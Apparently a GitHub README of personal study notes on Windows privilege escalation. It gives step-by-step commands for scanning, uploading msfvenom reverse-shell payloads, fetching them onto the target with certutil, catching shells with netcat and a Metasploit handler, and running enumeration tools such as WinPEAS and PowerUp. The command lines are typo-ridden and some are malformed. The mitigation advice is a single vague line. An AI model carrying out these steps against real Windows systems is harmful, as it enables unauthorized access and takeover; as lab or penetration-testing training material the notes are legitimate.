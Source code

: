 # winescalation
Windows Privilege Escalation


Intro:
A cyberattack technique for Gaining unauthorized access to your windows and gaining more control or higher privileges than what is typically allowed. It is possible due to weakness or vulnerability in the system.


Example - Login to website with someone's account


AIM:
->Gain administrative control
->Access restricted resources
->Maintain persistence
->Expand lateral movement
->Evade detection and security measures


2 types:


1.Horizontal priv escalation - When 1st users got access to other account via any username or password or via any other method and login or work as 2nd user.


2.Vertical priv escalation - When user able to perform any activity on behalf of administrator.

I) Gaining Initial Access 


->It basically requires some type of privilages in your hand.


->Once we have initial access we can then perform enumeration to identify vulnerabilities that can allow us to do privilage escalation.


nmap -p- -A ipofdevice -oN nmap.txt --min-rate 10000


If FTP anonumous service is allowed
If no file found or not found anything , try to put some file from your system
put nmap.txt

Now if found port 80 
just type ip on the browser 
use ffuf => ffuf -u http://ip/FUZZ/nmap.txt -w /usr/share/seclists/Discovery/web-content/reft-small-directoriex.txt -t 100

Now try uploading payload created by msfvenom

msfvenom -l formats , 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=yourip lport=80,443,53,445(prefer or 80) -f aspx -o robensive.aspx , 


or (2nd method) , 
msfvenom -p windows/x64/shell_reverse_tcp lhost= lport=8989,7777 -f exe -o test.exe 


now upload robensive.aspx or test.exe ,
For uploading (for 2nd method),
python3 -m http-server 8000(for running a server from the linux terminal),
certutil -urlcache -f -split http:://lhost:8000/test.exe test.exe(On target windows command prompt),
nc -lnvp 8989 (on termainal),
test.exe


run metasploit listener(for 1st method)


msfdb run ,
uer exploit/multi/handler ,
set payload windows/x64/meterpreter/reverse_tcp ,
set lhost=yourip , 
set lport=445(as used before),
run

Now access robensive.aspx via browser and get meterpreter
##Completer Initiall Access##

getuid ,
getprivs ,
sc qc unquotedsvc => cd BINARY_PATH_NAME" ,
cmdkey /list


Enumeration for privsec 
->some known scripts:
PowerUp , 
WinPEAS , 
PrivescCheck , 
BeRoot , 
PayloadAllThings ,
->Now we can try poetential ways to privilage escalation over the system to be a administrative user
->Many automation scripts


Practical part:
shell , 
net localgroup administrators -> got  all users , 
net user "username" , 
exit

1.Powerup (google it):
wget from github , 
load , 
load powershell , 
help , 
powershell_import PowerUp.ps1 , 
powershell_execurte Invoke_powerup(can cause problem to use  for powerups 


2.Privescheck(google it):
powershell_import PrivescCheck.ps1 , 
powershell_execurte Invoke_PrivescCheck

3.WinPeas(install from github):
upload winpeasx64.exe(on meterpreter) , 
shell , 
winpeasx64.exe


4.Beroot(install from github ):
upload beRoot.exe , 
shell ,
beroot.exe


#Priviege Escalataion
->Based on enumeration we will exploit the machine.

Mitigation:
Based on vulnearabilities , different mitigation should be applied
